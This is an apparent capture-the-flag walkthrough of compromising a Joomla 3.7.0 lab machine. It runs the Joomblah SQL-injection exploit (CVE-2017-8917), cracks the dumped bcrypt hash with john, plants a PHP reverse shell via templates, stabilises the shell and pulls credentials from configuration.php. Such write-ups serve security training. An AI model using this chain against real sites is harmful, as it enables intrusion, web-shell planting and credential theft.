 ```
3306/tcp open  mysql   MariaDB (unauthorized)
```
Install CMSmap from [here](https://github.com/Dionach/CMSmap) if you don't have it on your machine.

Run `python3 ~/tools/CMSmap/cmsmap.py 'http://target/'`.

##### F***ed up pip for python2
```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python get-pip.py
```

##### Exploit for Joomla 3.7.0 (CVE-2017-8917)

Download the exploit to your local machine and run it:
```
wget https://github.com/XiphosResearch/exploits/blob/36ef1e4adda92416e6f6c1cbeefc4576ef7fe722/Joomblah/joomblah.py

chmod +x joomblah.py
./joomblah.py http://target
```

Result:
```
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```

Save the password hash in a text file and run to crack it (this can take a while):
`john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt`

This will give you the clear text of the hash: `spiderman123`.

In Joomla we navigate to *Templates* and create a new php file that we can access containing the [pentestmonkey reverse php shell code](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Once you have your shell you can upgrade it to bash and make it more stable:
```
python -c 'import pty; pty.spawn("/bin/bash")'

[Ctrl]+z #on your keyboard not in the shell ;)
stty raw -echo
fg
export TERM=xterm-256color
```

If we look at `/home` there is a directory called `jjameson` so most likely there is a user under that name.

Navigating to `/var/www/html/` let's us read the `configuration.php`. You take the root password and try to login using the following credentials: `jjameson:nv5uz9r3ZEDzVjNu`.
